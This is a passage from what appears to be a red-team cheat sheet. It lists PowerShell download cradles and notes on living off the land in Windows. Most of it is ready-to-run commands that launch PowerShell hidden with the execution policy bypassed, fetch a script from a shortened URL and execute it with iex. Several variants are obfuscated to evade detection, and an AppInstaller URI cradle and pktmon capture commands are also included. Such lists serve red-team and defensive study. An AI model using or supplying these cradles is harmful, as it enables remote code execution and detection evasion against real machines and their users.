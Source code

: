 # proxy aware cmd download cradles

# default download cradle
c:\wInDOwS\sysTem32\CmD   /cPowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"
PowErShell -wINdowstYL  Hi  -nop -eXecU ByPAss -COm    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;iex $c.downloadstring(\"https://cutt.ly/syFzILs\")"

# obfuscated v1
C:\WINdOWS\SySteM32\CmD.EXe  /cpOWershEll  -eXecut byPaSS -Noprof  -w  H -Co    "$c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;`i`e`x $c.downloadstring(\"ht\"+\"tps://cutt.ly/syFzILs\")"
poWershELl -execUT byPAss -WINDo  1  -nopR  -comm  "& ((vARiaBlE '*mdr*').Name[3,11,2]-JoiN'') ((('{2}c=new-obj'+'ect ne'+'t.'+'webclient;{2'+'}'+'c.p'+'roxy='+'[Net'+'.'+'WebR'+'equest]::'+'GetS'+'yst'+'emWebP'+'ro'+'x'+'y();{'+'2}c'+'.Pr'+'oxy.Cre'+'dentials=[Net'+'.Cr'+'edentialC'+'ache]::D'+'e'+'fau'+'l'+'tCredenti'+'als'+';{0}i{0}e'+'{0}x {'+'2}c.downl'+'oa'+'ds'+'t'+'ring({1}ht{1}+{1'+'}t'+'ps'+':'+'/'+'/'+'cutt.ly/syFzIL'+'s{1})') -F  [cHAR]96,[cHAR]34,[cHAR]36))"
```

## AppInstaller Download Cradle:

Tool used for installation of AppX/MSIX applications on Windows 10. AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL and is saved in C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>

```
start ms-appinstaller://?source=https://raw.githubusercontent.com/RoseSecurity/Red-Teaming-TTPs/main/Windows.md
```

# Living Off the Land: Windows Packet Capturing

Packet Monitor (Pktmon) is an in-box, cross-component network diagnostics tool for Windows. It can be used for packet capture, packet drop detection, packet filtering and counting.

```
C:\Users\SecurityNik>pktmon filter add IP-TCP-SYN-443 --data-link IPv4 --ip-address 172.217.2.115 --transport-protocol tcp SYN --port 443
Filter added.

C:\Users\SecurityNik>pktmon filters list
 # Name           EtherType Protocol  IP Address    Port
 - ----           --------- --------  ----------    ----
 1 IP-TCP-SYN-443 IPv4      TCP (SYN) 172.217.2.115  443


[VICTIM]: PS C:\Users\Victim\Documents>